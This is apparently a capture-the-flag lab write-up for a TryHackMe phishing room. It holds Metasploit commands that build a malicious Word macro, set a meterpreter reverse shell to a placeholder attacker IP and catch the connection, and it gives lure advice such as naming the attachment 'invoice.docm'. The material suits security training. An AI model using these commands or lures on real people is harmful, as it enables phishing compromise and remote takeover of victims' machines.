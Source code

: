 # **Tutorial: Room - [Room Name]**

## 📖 Description
In this room, the objective was to exploit a vulnerability in a Microsoft Word document containing a malicious macro. We used Metasploit to set up a reverse shell, which allowed us to remotely access the victim's machine and capture the flag.

---

### **Learning Objectives**
- Understand how phishing attacks work.
- Discover how macros in documents can be used and abused.
- Learn how to carry out a phishing attack with a macro.

---

### **Phishing Attacks**
Security is only as strong as the weakest link in the chain. Many would argue that humans are often the weakest link in security. Is it easier to exploit a patched system behind a firewall, or to convince a user to open an "important" document? This is why "human hacking," or social engineering, is often the easiest route to compromise a system.

Phishing, a form of social engineering, works by sending "bait" to a large group of target users. The attacker often crafts the message with a sense of urgency, prompting the target to take immediate action, which increases the chances of success. The goal is to steal personal information or install malware by convincing the user to open a file, fill out a form, or click a link.

An example might be an email claiming that a large charge is pending, urging the recipient to check the attached document or URL. The attacker just needs the target to open the file or click the link, triggering actions that allow them to control the victim's system.

---

### **Macros**
Macros are used to automate repetitive tasks, such as inserting text or performing calculations. Microsoft Office products like Word support macros, which can be a huge time-saver for users. However, these macros can also be hijacked and used for malicious purposes in cyber attacks.

In the case of phishing, an attacker can create a document with a macro that, once opened, executes a payload on the victim's system, giving the attacker remote control.

---

### **Attack Plan**
The attacker, Mayor Malware, needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the attacker’s machine, giving them remote control. The steps are as follows:

1. Create a document with a malicious macro.
2. Start listening for incoming connections on the attacker’s system.
3. Send the malicious document and wait for the victim to open it.
4. The victim opens the document and connects to the attacker’s system.
5. The attacker gains control of the victim’s system.

---

## 🛠️ Prerequisites
- Active account on [TryHackMe](https://tryhackme.com)
- Basic knowledge of Metasploit and social engineering attacks.
- Tools required:
  - [Metasploit](https://metasploit.help.rapid7.com/docs/using-metasploit)
  - [Email client to send the malicious file using RainLoop]

---

## 🚀 Step-by-Step Guide

### 1️⃣ Initial Setup in Metasploit
First, we need to configure the Metasploit payload. We’ll use a `windows/meterpreter/reverse_tcp` payload to receive a reverse connection from the victim's machine.

```bash
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

### 2️⃣ Exploiting the Malicious Document
After setting up the exploit, we need to generate the malicious Word file with a macro and send it to the victim. Once the victim opens the file, the reverse shell will be triggered, establishing the connection.

---

### 3️⃣ Sending the Malicious Document via Email
To send the malicious document, we will use RainLoop, a webmail client available on the attacker's machine. You can access it by visiting the provided link on the AttackBox.

- **Link for accessing RainLoop**: [Link to RainLoop webmail client]
- **Login credentials**:
  - **Email**: `info@socnas.thm`
  - **Password**: `MerryPhishMas!`

Once logged in, compose an email to the victim (`marta@socmas.thm`). Attach the malicious Word file (renaming it to something convincing like `invoice.docm` or `receipt.docm`), and craft a message to encourage the victim to open it. For example, mention that it contains an important invoice or document that requires their attention.

---

### 4️⃣ Handling the Connection in Metasploit
After the victim opens the malicious file, the reverse connection is made. We configure Metasploit to listen for incoming connections.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

### 5️⃣ Gaining Access to the Victim's Machine
Once the victim opens the document and runs the macro, we gain access to their system via the reverse shell. Now we can execute commands on their machine.

---

### 6️⃣ Capturing the Flag
With access to the victim’s machine, we navigate to the desktop and read the flag file.

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

### 7️⃣ Conclusion
By running the cat flag.txt command, we successfully obtain the flag, completing the room. Congratulations!

### 🖼️ Resources
(Include screenshots or useful links here.)

### 📌 Final Notes
This exercise demonstrated how to perform a phishing attack using a malicious macro to gain remote access to a system and exfiltrate information.

### 🏆 Final Outcome
After completing all the steps and capturing the flag, the room is finished.
